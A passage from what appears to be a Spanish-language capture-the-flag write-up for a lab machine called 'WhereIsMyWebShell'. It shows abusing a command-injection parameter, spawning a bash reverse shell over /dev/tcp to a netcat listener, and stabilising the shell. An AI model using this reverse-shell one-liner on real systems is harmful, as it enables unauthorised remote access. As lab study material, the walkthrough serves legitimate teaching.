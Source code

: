 Ha conseguido encontrar "parameter". Lo pruebo y efectivamente me ejecuta el comando.

![WhereIsMyWebShell 6](/assets/images/2024-05-30-WhereIsMyWebShell/WhereIsMyWebShell_6.PNG)

En la web se indicaba que había un secreto en `/tmp`, pero cuando hago un `ls` no veo nada.

![WhereIsMyWebShell 7](/assets/images/2024-05-30-WhereIsMyWebShell/WhereIsMyWebShell_7.PNG) 

Intento conseguir una reverse shell, para ello me pongo en escucha con netcat y ejecuto el comando `bash -c "bash -i >%26 /dev/tcp/172.17.0.1/4321 0>%261"` (importante hacer URL encode de & a %26). Consigo obtener acceso al sistema.

```shell
nc -nlvp 4321                                                                                                                                       
listening on [any] 4321 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 34200
bash: cannot set terminal process group (23): Inappropriate ioctl for device
bash: no job control in this shell
www-data@bf6660af2dc2:/var/www/html$ 
```

## Escalada de privilegios

Para tener una consola interactiva, hay que hacer un tratamiento de la tty. Ejecuto `script /dev/null -c bash`, hago ***ctrl+z***, escribo ***"stty raw -echo; fg"***, introduzco ***"reset xterm"*** y doy un ***intro***. Con esto he reiniciado la configuración de la terminal.

```shell
www-data@bf6660af2dc2:/var/www/html$ 
```

La shell todavía no es interactiva del todo. Veo que la variable de entorno $TERM tiene el valor dump y no xterm. Esto se puede arreglar con `export TERM=xterm`. 

```shell
www-data@bf6660af2dc2:/var/www/html$ echo $TERM
dumb
www-data@bf6660af2dc2:/var/www/html$ export TERM=xterm
```

La proporción de la consola no es igual a la de terminal. Miro el tamaño con `stty size`.

```shell
www-data@bf6660af2dc2:/var/www/html$ stty size
24 80
```
